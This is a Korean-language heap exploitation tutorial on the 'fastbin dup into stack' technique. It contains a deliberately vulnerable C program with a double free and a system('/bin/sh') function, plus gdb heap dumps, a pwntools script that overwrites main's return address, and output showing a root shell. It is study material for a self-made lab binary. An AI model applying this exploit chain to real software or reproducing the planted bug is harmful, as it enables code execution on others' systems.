 # **Fastbin-dup into stack**

## **Conditions**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)
* 공격자에 의해 할당된 Fast Chunk 영역에 값을 저장할 수 있어야 한다.
* 할당 받고자 하는 Stack 영역에 해제된 Fast Chunk의 크기 값이 저장되어 있어야 한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk(A, B, C) 3개 생성한다.
1. 첫 번째 Fast Chunk(A) 해제한다.
1. 두 번째 Fast Chunk(B) 해제한다.
1. 첫 번째 Fast Chunk(A) 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 해당 Chunk 영역에 "Stack 영역 주소 값 - prev_size 공간(0x8)" 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.
    * 할당된 영역은 "Stack 영역의 주소 값 + 0x8" 영역

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

### **Fake Chunk의 조건**

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void call_me(){
       system("/bin/sh");
}

int main()
{
        long stack_var = 0x0;
        scanf("%ld",&stack_var);
        printf("Stack_var : %p\n",&stack_var);

        char *buf1 = malloc(112);
        char *buf2 = malloc(112);
        char *buf3 = malloc(112);

        free(buf1);
        free(buf2);
        free(buf1);

        char *buf4 = malloc(112); 
        char *buf5 = malloc(112);

        scanf("%8s",buf4);

        char *buf6 = malloc(112); 
        char *buf7 = malloc(112);
        read(0,buf7,112);  
}
```

* buf1을 2번 Free 후 buf4에 scanf로 입력받는다.  
* Tail buf1의 fd는 Null이지만 현재 buf4로 malloc을 해준 상태로 Tail의 fd를 조작할 수 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602820 --> 0x4141414141414141 (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x6029a0 (size : 0x20660) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* Fast Chunk의 크기가 동일해야 하므로 Stack 내 128(0x80)이 존재하는 부분을 확인한 후 해당 위치의 - 0x8 한 위치(0x7ffe2d26fa38)를 입력해야한다. (Chunk의 시작)  
* 0x7ffe2d26fa48부터 User Data이며 read로 입력받도록 만들었다.

```
gdb-peda$ x/4x 0x7ffe2d26fa38
0x7ffe2d26fa38:	0x0000000000400783	0x0000000000000080
0x7ffe2d26fa48:	0x000000000040080d	0x00007ffe2d26fa7e

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x112a420 --> 0x7ffe2d26fa38 --> 0x40080d (size error (0x415d5b08c48348e8)) --> 0xc35f415e415d415c (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x112a5a0 (size : 0x20a60) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* read를 통해 main의 return 값을 변조하여 call_me로 분기가 가능하다. 

```
gdb-peda$ x/24gx $rbp-0x48
0x7ffc9c05d7d8:	0x00000000004007b5  0x0000000000000080 <- Chunk Header
0x7ffc9c05d7e8:	0x4141414141414141  0x4141414141414141 <- User Data
0x7ffc9c05d7f8:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d808:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d818:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d828:	0x00000000004006b6  0x000000000000000a

gdb-peda$ x/2x $rbp
0x7ffc9c05d820:	0x4141414141414141	0x00000000004006b6 <- ret
```

## **Exploit Code**

```python
from pwn import *

call_me = 0x4006b6
p = process('./fastbin_dup')
#gdb.attach(p)
p.sendline("128")  # Set Chunk Size in Stack
stack_addr = int(p.recvline().split(' ')[2],16)
log.info('Stack Addr : ' + hex(stack_addr)) 
p.sendline(p64(stack_addr - 0x8)) # size - 0x8(Chunk)
#raw_input('1')
p.sendline("A"*0x40 + p64(call_me)) # Modulate Stack

p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fastbin# python exploit.py 
[+] Starting local process './fastbin_dup': pid 4442
[*] Stack Addr : 0x7ffc3ed4ffc0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup_into_stack>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>